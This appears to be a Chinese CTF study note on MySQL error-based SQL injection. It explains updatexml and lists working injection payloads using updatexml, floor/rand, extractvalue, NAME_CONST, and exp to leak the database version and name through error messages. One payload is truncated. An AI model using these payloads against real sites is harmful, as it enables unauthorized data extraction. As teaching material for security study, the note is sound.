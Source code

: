 当函数updatexml(),extractvalue(),floor()，exp,可利用时。可以尝试报错注入

1.updatexml

UPDATEXML (XML_document, XPath_string, new_value); 

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 

第三个参数：new_value，String格式，替换查找到的符合条件的数据 

作用：改变文档中符合条件的节点的值

然后咱们再看看语句：

http://www.XXXIII.com/a.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

CONCAT(str1,str2,…)  

返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

通过查询@@version,返回版本。然后CONCAT将其字符串化。因为UPDATEXML第二个参数需要Xpath格式的字符串,所以不符合要求，然后报错。

错误大概会是：

ERROR 1105 (HY000): XPATH syntax error: ’:root@localhost’

不懂Xpath格式的字符串的来这里：http://www.cnblogs.com/Loofah/archive/2012/05/10/2494036.html

低调求发展，潜心习安全。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/00AB7F91516847C79F50744A495D5A122019-03-31_181438.png)

2.floor通过floor报错：

```javascript
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)
and (select count(*) from (select 1 union select null union select  !1)x group by concat((select version
```

3.   通过ExtractValue报错：

```javascript
and extractvalue(1, concat(0x7f, (select version()),0x7f))
```

4. 通过NAME_CONST报错：

```javascript
and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)
```

5.  通过错误的双重查询：

```javascript
or 1 group by concat_ws(0x7f,version(),floor(rand(0)*2)) having min(0) or 1
```

6.通过exp报错

'or EXP(~(SELECT * from(select database())a))#







